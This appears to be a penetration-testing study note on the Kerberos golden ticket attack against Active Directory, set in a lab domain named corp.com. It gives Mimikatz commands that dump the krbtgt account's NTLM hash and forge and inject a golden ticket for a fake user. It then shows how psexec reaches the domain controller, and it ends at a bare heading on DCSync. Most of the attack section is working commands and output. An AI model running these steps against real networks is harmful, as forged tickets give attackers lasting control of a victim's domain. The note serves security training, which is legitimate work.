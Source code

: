 <mark style="color:yellow;">You need to have compromised a member within the Domain Admins group or the Domain Controller itself.</mark>

With this kind of access, we can extract the password hash of the krbtgt account with Mimikatz.

```
privilege::debug
OK

lsadump::lsa /patch

User: krbtgt
NTLM: 75b60230a2394a812000dbfad8415965
```

* <mark style="color:yellow;">Remember, you are after the NTLM hash for the krbtgt account!</mark>

Fun fact:&#x20;

Creating the golden ticket and injecting it into memory does not require any administrative privileges, and can even be performed from a computer that is not joined to the domain.

* Before generating the golden ticket, delete any existing Kerberos tickets with <mark style="color:yellow;">kerberos::purge</mark>
* We need to supply the domain SID (we can obtain with whoami /user) to the Mimikatz <mark style="color:yellow;">kerberos::golden</mark>&#x20;
  * This will create the golden ticket
* Be sure to use the /krbtgt to indicate that you are supplying the hash
* You can set the golden ticket's username to anything such as fakeuser in this
* This is because the DC will trust anything that is encrypted by the krbtgt password hash

```
kerberos::purge

 kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-
2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
```

Upon success, you will see:

```
Golden ticket for 'fakeuser @ corp.com' successfully submitted for current session

misc::cmd
```

With the golden ticket injected into memory, we can launch a new command prompt with misc::cmd and again attempt lateral movement with PsExec

```
psexec.exe \\dc01 cmd.exe

C:\Windows\System32>
```

## Domain Controller Synchronization (dcsync)
